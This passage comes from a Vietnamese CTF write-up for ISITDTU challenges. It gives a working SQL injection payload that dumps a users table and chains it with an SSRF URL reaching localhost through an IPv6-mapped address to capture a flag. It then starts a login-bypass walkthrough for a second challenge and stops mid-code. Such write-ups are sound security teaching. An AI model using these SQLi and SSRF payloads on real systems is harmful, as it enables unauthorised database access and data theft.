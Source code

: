 ![](https://i.imgur.com/j9poFif.png)

Oke, vậy payload SQLi cuối cùng sẽ là:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Ghép với payload SSRF ở trên nữa ta sẽ lấy được flag:

![](https://i.imgur.com/CGrDwKp.png)

My final payload:

```
http://[0:0:0:0:0:ffff:127.0.0.1]/home.php?id=1%20union%20select%201,make_set(1%7c4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`

## ![image](https://user-images.githubusercontent.com/61876488/147461736-3c4051fc-e4e0-44ac-be5b-3bff75f4ed09.png) ez get flag

> Hơi đáng tiếc vì mình không thể clear được challenge này trong thời gian của cuộc thi. Nhưng không sao, năng lực của mình chỉ đến vậy thì phải chấp nhận, quan trọng là mình đã không chán nản mà vẫn tiếp tục cày cho tới khi clear challenge này, kể cả khi ISITDTU CTF đã end.

![](https://i.imgur.com/0SzcBRJ.png)

[Source](https://drive.google.com/file/d/1taM2xhzuIEPIbrsaOYpFzspFhx1CrEx-/view?usp=sharing)

### 1. Initial reconnaissance:

Thoạt nhìn thì ai cũng tưởng sẽ phải vào `register` để tạo một account mới rồi login vào, nhưng đời không đơn giản như vậy. Nó thậm chí còn không cho register!

![](https://i.imgur.com/WeqF3R8.png)

Khi nhập linh tinh vào các field của trang `login` thì nó sẽ ra như này:

![](https://i.imgur.com/1wvQfnD.png)

Check source của bài này thì chỉ có 2 trang `register` và `login` này cho phép free-access. Như vậy chúng ta chỉ còn cách bypass login để mà vào bên trong. 

### 2. Bypass login:

Ta có source của chức năng login như sau:

```python
def login():
	if 'username' in session:
		return redirect(url_for('home'))
    
	else:
		if request.method == "POST":
			username, password = '', ''
			username = request.form['username']
			password = request.form['password']
			
            if sql.login_check(username,password) > 0 and username == 'admin':
				session['username'] = 'admin'
				session['check'] = 1
				return render_template('home.html')

			else:
```